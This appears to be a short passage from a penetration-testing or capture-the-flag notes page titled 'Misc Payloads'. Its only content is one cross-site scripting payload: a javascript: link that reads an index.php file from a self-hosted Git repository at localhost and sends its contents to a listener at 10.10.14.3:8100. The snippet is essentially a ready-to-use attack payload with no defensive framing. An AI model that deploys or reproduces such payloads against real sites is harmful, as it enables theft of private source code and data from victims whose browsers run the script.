 # Misc Payloads
```html
# Used to fetch file contents from github repo.
<a href="javascript:fetch('http://localhost:3000/administrator/Employee-management/raw/branch/main/index.php').then(response => response.text()).then(data => fetch('http://10.10.14.3:8100/?response=' + encodeURIComponent(data))).catch(error => console.error('Error:', error));">XSS test</a>
```
